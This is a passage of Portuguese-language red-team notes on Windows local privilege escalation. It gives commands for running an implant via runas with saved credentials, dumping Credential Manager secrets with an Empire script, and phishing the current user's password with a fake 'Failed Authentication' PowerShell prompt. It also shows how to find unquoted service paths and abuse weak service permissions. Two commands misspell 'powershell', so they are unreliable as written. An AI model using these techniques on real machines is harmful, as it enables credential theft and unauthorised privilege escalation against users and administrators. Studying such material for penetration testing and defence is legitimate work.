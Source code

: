 - Também podemos usar esse comando para rodar um implant:
  - ``` C:\> runas /savedcred /user:admin "c:\path\to\implant.exe" ```



## Extraindo creds do Credential Manager

- Script from Empire...

- C:\> powershell import-module c:\path\to\cms.ps1 ; Enum-Creds



## Popup local para pegar as creds de um user

- Cria um popup que pede a senha do usuário atual

- ``` C:\> powsershell "$cred = $host.ui.promptforcredential('Failed Authentication','',[Environment]::UserDomainName+'\'+[Environment]::Username,[Environment]::UserDomainName); $cred.getnetworkcredential().password" ```

- ``` C:\> powsershell "$cred = $host.ui.promptforcredential('Failed Authentication','',[Environment]::UserDomainName+'\'+'CHANGE THIS WITH OTHER USERNAME',[Environment]::UserDomainName); $cred.getnetworkcredential().password" ```

>___


# Insecured Objects (Non Admin Medium IL)

## Insecured Services

### Priv Esc usando insecured objects, especificamente abusando dos Windows Services.

#### A primeira tecnica é chamada ```Insecure Service Path``` (unquoted and with spaces in paths):

- Ache services com espaços no binary path
- ``` C:\> wmic service get name,displayname,pathname,startmode | findstr /i "auto" | findstr /i /v "c:\windows\\" | findstr /i /v """ ```


- Exploration
  - https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation#unquoted-service-paths
  - https://www.ired.team/offensive-security/privilege-escalation/unquoted-service-paths


#### A segunda tecnica é chamada de ```insecure config services``` ou ```weak services permission```

- Permite um usuário com poucos privilégios ter permissão para alterar a configuração de um service. Por exemplo, alterar o binário que um service usa quando inicia...
